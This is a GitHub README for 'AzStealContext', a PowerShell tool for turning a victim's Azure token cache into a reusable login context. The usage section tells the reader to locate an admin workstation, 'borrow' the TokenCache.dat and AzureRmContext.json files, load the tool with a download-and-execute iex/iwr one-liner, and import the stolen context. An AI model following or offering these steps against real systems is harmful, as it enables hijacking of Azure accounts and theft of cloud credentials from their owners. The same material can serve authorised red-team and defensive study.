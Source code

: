 # AzStealContext

A PowerShell function that automates the process of stealing the Azure context of a users .Azure folder. 

When a user authenticates using the Az PowerShell module a `.Azure` folder is created in the users home folder. This folder contains multipele files including the `AzureRmContext.json` and `TokenCache.dat` files. These files contain all the information a attacker needs to create a 'context file' which is equivalent of the output from the [`Save-AzContext`](https://docs.microsoft.com/en-us/powershell/module/az.accounts/save-azcontext?view=azps-4.6.1) command. This PowerShell function automates the process a attacker would need to take to create a 'context' file.

The AzureRmContext file can have multiple 'contexts'. This happens when the `Connect-AzAccount` is run multiple times by the same user with different Azure credentials. This function will verify if there are multiple contexts and if so, will ask you which one to use as the default context. 


## Usage
1. Find a Admin workstation / Userprofile that has the `.Azure` folder.
2. 'Borrow' the `TokenCache.dat` and `AzureRmContext.json` files.
3. Load this function. `iex((iwr https://raw.githubusercontent.com/justin-p/AzStealContext/master/Invoke-AzStealContext.ps1).content)`
4. Run the function
   - To prepare a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files'`
   - To prepare and Import a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext`
   - Overwrite a existing OutFile: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext -Force`
   - To change the default OutFile `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -OutFile 'CustomFilename.json'`
   
# Contributing

Feel free to open issues, contribute and submit your Pull Requests. You can also ping me on Twitter (@JustinPerdok)
